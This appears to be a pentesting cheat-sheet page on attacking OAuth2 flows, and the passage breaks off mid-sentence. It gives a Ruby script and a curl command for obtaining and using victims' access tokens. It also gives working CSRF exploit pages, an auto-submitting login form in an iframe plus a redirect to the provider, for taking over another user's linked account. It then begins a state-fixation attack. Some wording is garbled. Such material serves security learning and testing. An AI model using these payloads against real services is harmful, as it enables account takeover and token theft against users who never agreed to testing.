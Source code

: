 # OAuth2

## Open Redirect

When authorising with OAuth, then the redirect parameters for open redirects.  
This can be used to steal session codes from victims.  

## Get Access Tokens with Ruby

If you can create a resource, this script can be used with XSS or CSRF to steal sessions:  
Script from Louis at Pentesterlab  

```ruby
require 'oauth2'

callback = "[CALLBACK_URL]"
app_id = "[APPLICATION_ID]"

secret = "[SECRET]"
client = OAuth2::Client.new(app_id, secret, site: "[AUTHORIZATION_SERVER]")
client.auth_code.authorize_url(redirect_uri: callback)

code="[CODE]"
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token 
```

Feed the token returned from above into this command:  

```bash
curl -H 'Authorization: Bearer [TOKEN]' [RESOURCE_SERVER]/api/keys --dump-header -
```

## CSRF to Access Another User's Account

1. Start by creating a malicious account on the `authorisation server` and the `OAuth2 Client`
2. Line these two accounts and then unlink them
3. Check that the process of signing in and authorising does not require CSRF tokens
4. Create an HTML page to be loaded inside an iframe. Copy the form found in the source of the target page

```html
<!-- frame.html -->
<html>
        <body onload="document.getElementById('csrf').submit()">
<form class="new_user" id="csrf" action="http://target.com/users/sign_in" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="xwlEm/OXisbDKOWdxJIFZCX7C/OGvl00RiJQehGA9pgAMqxgMS3QlF4kfbtrkAR1NGH0X+cY0OEdkGRm5X0iXw==">
  <div class="field">
    <label for="user_email">Email</label><br>
    <input autofocus="autofocus" autocomplete="email" type="email" value="test2@example.com" name="user[email]" id="user_email">
  </div>

  <div class="field">
    <label for="user_password">Password</label><br>
    <input autocomplete="current-password" type="password" value="password" name="user[password]" id="user_password">
  </div>

    <div class="field">
      <input name="user[remember_me]" type="hidden" value="0"><input type="checkbox" value="1" name="user[remember_me]" id="user_remember_me">
      <label for="user_remember_me">Remember me</label>
    </div>

  <div class="actions">
    <input type="submit" name="commit" value="Log in" data-disable-with="Log in">
  </div>
</form>
</body>
</html>
```

5. Create an HTML page that will load your iframe and then open the authorisation page after a timeout

```html
<!-- exploit.html -->
<html>
        <body>
                <iframe src="frame.html"></iframe>
        <script>
                setTimeout(function() {window.location="http://target.com/users/auth/myprovider"}, 500);
        </script>
        </body>
</html>

```

## State Fixation with CSRF

Exploiting an OAuth2 Client that is vulnerbale to state fixation and CSRF in the link functionality.  

Create an HTML page that will:  
- Prime the victim's session with a state
- Pass a valid code with the fixated state

Create a malicious account that will be used for the link, begin the OAuth2 dance but intercept requests and stop before the final redirect with the valid code.  
Look through the request history for a request that primes the session with a state, e.g. 
